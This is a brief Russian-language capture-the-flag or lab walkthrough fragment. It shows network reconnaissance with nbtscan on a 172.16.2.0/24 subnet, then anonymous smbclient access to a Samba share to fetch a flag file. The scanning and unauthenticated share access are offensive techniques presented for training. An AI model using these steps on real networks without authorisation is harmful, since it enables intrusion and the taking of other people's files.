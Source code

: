 Изучаем вывод ip route чтобы проверить доступ в другие сети/адреса
Изучаем активные хосты с помощью
```
nbtscan 172.16.2.0/24
```
Находим samba share на 172.16.2.101
Подключаем и забираем флаг
```
smbclient //SAMBASHARE01/sambashare -N
get flag.txt
cat flag.txt
```
